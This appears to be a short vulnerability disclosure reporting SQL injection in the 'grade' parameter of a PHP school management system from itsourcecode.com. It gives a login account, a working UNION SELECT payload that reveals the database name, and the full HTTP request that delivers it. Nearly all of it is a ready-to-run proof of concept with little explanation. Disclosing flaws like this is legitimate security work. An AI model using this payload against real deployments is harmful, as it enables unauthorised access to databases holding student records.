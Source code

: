 # Advanced School Management System v1.0 by itsourcecode.com has SQL injection

**Login account:** 

​		username：suarez081119@gmail.com

​		password：12345

**vendors:** https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

**Vulnerability url:** /school/view/student_grade_wise.php?grade=

**Vulnerability location:** /school/view/student_grade_wise.php

**[+] Payload:** /school/view/student_grade_wise.php?grade=11'%20union%20select%20database()%2c2%2c3%3b%23

​	Leak place : grade

**Current database name:** std_db, length is 6

**Request package**：select all students whose grade is specified

```
GET /school/view/student_grade_wise.php?grade=11'%20union%20select%20database()%2c2%2c3%3b%23 HTTP/1.1
Host: 10.12.171.4
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: */*
Referer: http://10.12.171.4/school/view/all_student.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=cp26rmntdlbhle8qiofns95sv7
Connection: close
```

**SQL injection result**：line 6 database name is displayed.

![image-20220624163833913](https://github.com/Renrao/bug_report/blob/master/blob/main/vendors/itsourcecode.com/advanced-school-management-system/sql_injection.assets/image-20220624163833913.png)